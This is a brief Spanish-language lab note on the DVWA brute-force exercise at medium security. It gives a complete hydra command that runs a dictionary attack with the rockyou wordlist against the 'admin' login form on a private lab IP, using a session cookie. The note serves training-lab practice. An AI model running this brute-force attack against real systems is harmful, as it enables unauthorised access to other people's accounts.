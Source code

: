 Utilizando hydra para realizar un ataque de diccionario para encontrar las credenciales de acceso.
La diferencia entre low y medium es el tiempo de respuesta entre accesos.

Comando - nivel medio:
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.168.1.206 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=beb3886943fd6314e7836dc7b8e33d79;security=medium:F=Username and/or password incorrect."